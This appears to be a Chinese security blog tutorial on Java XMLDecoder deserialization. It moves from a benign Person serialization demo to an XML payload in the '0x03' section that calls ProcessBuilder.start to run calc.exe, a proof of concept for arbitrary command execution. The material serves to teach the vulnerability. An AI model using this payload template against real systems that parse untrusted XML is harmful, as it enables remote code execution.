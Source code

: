 ### 0x01 前言

之前我们接触过java比较基础且普遍的一种反序列化，但是在java中反序列化的形式并不是那么单一，今天我要要介绍的就是XMLDecoder这个类的序列化以及反序列化。

### 0x02 XMLDecoder介绍

这个类是jdk自带的，位置是`java.beans.XMLDecoder` ， 这个类的序列化就是将java对象转换成xml文件，反序列化是把特定格式的xml文件转换成java对象。

我们还是用一个小demo来熟悉下它的使用方式。

创建一个类，类里面有两个方法，一个是序列化操作，一个是反序列化操作

```java
import java.beans.XMLDecoder;
import java.beans.XMLEncoder;
import java.io.*;

public class XMLTest{
    // 序列化对象到文件person.xml
    public void xmlEncode() throws FileNotFoundException {
        Person person = new Person();
        person.setAge(18);
        person.setName("axin");
        XMLEncoder xmlEncoder = new XMLEncoder(new BufferedOutputStream(new FileOutputStream("person.xml")));
        xmlEncoder.writeObject(person);
        xmlEncoder.close();
        System.out.println("序列化结束！");
    }

    // 反序列化
    public void xmlDecode() throws FileNotFoundException {
        XMLDecoder xmlDecoder = new XMLDecoder(new BufferedInputStream(new FileInputStream("person.xml")));
        Person person = (Person)xmlDecoder.readObject();
        xmlDecoder.close();
        person.sayHello();
        System.out.println("反序列化成功!");
    }

    public static void main(String[] args) throws FileNotFoundException {
        XMLTest xmlTest = new XMLTest();
        xmlTest.xmlEncode();
        xmlTest.xmlDecode();
    }
}
```

其中Person类如下：

```java
public class Person {
    String name = "";
    int age;

    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }

    public int getAge() {
        return age;
    }

    public void setAge(int age) {
        this.age = age;
    }

    public void sayHello(){
        System.out.println("Hello, my name is "+name);
    }
}
```

运行XMLTest类，会在当前工程目录下生成一个person.xml文件，并且终端会打印调用sayHello方法的结果


序列化生成的xml文件格式如下：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_231" class="java.beans.XMLDecoder">
 <object class="Person">
  <void property="age">
   <int>18</int>
  </void>
  <void property="name">
   <string>axin</string>
  </void>
 </object>
</java>
```

反序列化上述的xml文件，然后执行sayHello方法

![](xmldecoder/console.png)

### 0x03 利用方法

我们已经得知XMLDecoder常见的序列化与反序列化的方法，那么怎么利用呢?

我们可以利用其反序列化机制执行任意对象的任意命令，例如构造如下xml文件：

```xml
<java>
    <object class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="1">
            <void index="0">
                <string>calc.exe</string>
            </void>
        </array>
        <void method="start">
        </void>
    </object>
</java>
```

上述xml文件如果被反序列化会执行ProcessBuilder的start方法，弹个计算器

![](xmldecoder/calc.png)

### 其他

这一章只是简单的XMLDecoder反序列化的原理，同样的，我还是会找一个案例来帮助大家更清晰的认识该漏洞,当然，换汤不换药,漏洞的发生场景变了，本质是不变的~

下一章，我们就看看weblogic中的XMLDecoder反序列化漏洞吧


